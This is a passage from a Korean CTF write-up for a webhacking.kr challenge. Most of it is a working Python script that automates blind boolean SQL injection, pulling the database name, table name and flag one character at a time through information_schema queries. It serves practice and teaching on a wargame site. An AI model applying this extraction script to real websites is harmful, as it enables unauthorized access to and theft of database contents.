 ```python
# flag length
if((select(length(max(flag_3a55b31d)))from(flag_ab733768))in({i}),1,0)

# flag
if((select(ord(substr(max(flag_3a55b31d),{i},1)))from(flag_ab733768))in({ord(letter)}),1,0)
```
이렇게 쿼리를 작성하고 자동화 코드를 실행하면 플래그의 길이와 진짜 값이 출력된다.<br />
다행히도 max 함수를 이용하는 추측이 맞았던 것이다.<br />
### 최종 코드 
```python
import requests
import string

class Solver:
    def __init__(self):
        self.url = "https://webhacking.kr/challenge/web-10/?no="
        self.true_factor = "cellpadding"
        self.db_length = 7
        self.db_name = "chall13"
        self.table_length = 20
        self.table_name = "flag_ab733768"
        self.column_length = 20
        self.column_name = "flag_3a55b31d"
        self.flag_length = 27
        self.flag = "REDACTED"
    
    def getDBNameLength(self):
        for i in range(1, 100):
            query = f"if(length(database())in({i}),1,0)"
            resp = requests.get(self.url + query)
            if self.true_factor in resp.text:
                self.db_length = i
                break
        
        print("DB Name's Length:", self.db_length)

    def getDBName(self):
        temp_str = ""
        for i in range(1, self.db_length + 1):
            for letter in string.printable:
                print(letter)
                query = f"if((select(ord(substr(min(table_schema),{i},1)))from(information_schema.tables))in({ord(letter)}),1,0)"
                resp = requests.get(self.url + query)
                if self.true_factor in resp.text:
                    print("Found", letter)
                    temp_str += letter
                    break
        
        self.db_name = temp_str
        print("DB Name:", self.db_name)
    
    def getTableNameLength(self):
        for i in range(1, 100):
            query = f"if((select(length(min(concat(table_schema,table_name))))from(information_schema.tables))in({i}),1,0)"
            resp = requests.get(self.url + query)
            if self.true_factor in resp.text:
                self.table_length = i
                break
            
        print("Table Name's Length:", self.table_length)
```